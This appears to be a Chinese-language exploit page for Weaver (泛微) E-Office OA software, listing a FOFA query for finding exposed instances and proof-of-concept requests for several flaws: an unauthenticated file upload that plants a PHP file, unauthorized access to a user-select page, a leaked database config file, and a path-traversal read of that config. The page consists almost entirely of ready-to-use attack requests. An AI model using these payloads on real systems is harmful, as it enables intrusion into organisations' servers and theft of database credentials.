


# 泛微OA E-Office 漏洞
## 资产收集
fofa:`app="泛微-EOffice"`
## 任意文件上传
### POC
```h
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```
  
`/images/logo/logo-eoffice.php`  
  
## UserSelect 未授权访问
### POC
`/UserSelect/`
## mysql_config.ini 数据库信息泄漏
### POC
`/mysql_config.ini`
## 任意文件读取漏洞
### POC
`/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini`